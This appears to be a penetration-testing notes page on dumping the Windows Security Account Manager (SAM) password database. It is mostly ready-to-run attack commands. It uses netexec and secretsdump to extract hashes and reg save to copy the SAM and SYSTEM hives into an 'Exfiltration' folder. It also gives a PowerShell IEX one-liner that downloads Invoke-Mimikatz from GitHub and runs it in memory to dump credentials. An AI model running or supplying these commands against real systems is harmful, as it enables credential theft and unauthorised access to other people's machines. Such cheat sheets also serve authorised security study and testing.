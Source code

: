 ```yaml
---
{"dg-publish":true,"permalink":"/attack-computer/attack-windows/1-windows-basic/windows-authentication-system/security-account-manager-local/","noteIcon":"","created":"2025-04-15T14:11:19.617-04:00"}
---
```






### 1.2 Security Account Manager

The [Security Account Manager (SAM)](https://en.wikipedia.org/wiki/Security_Account_Manager) is a database file that stores users' passwords. Typically, SAM is used for local accounts, and enumerating it requires SYSTEM-level access.

According to [MITRE](https://attack.mitre.org/techniques/T1003/002/), SAM is typically used for local accounts.

Normally the SAM databases are stored in following.
```bash
%systemroot%\system32\config\sam   #main
%systemroot%\repair\sam._          #backup
```

#### 1.2.1 netexec
```bash
netexec smb <IP> -u <User> -p <Password> --sam --local-auth
```

#### 1.2.2 Secretsdump
```bash
secretsdump.py -sam SAM -system SYSTEM LOCAL
or
impacket-secretsdump
```

#### 1.2.3 Windows
```bash
reg save HKLM\SAM c:\Exfiltration\SAM
reg save HKLM\SYSTEM c:\Exfiltration\SYSTEM
```

#### 1.2.4 Mimikatz
```bash
# Load into memory
IEX (IWR -UseBasicParsing "https://raw.githubusercontent.com/BC-SECURITY/Empire/master/empire/server/data/module_source/credentials/Invoke-Mimikatz.ps1")

# Dump from SAM and SYSTEM. Ensure files are in the current working directory
Invoke-Mimikatz -command "lsadump::sam /system:SYSTEM /sam:SAM"

# Dump against the live hive files
Invoke-Mimikatz -Command '"token::elevate" "lsadump::sam"'
```

---
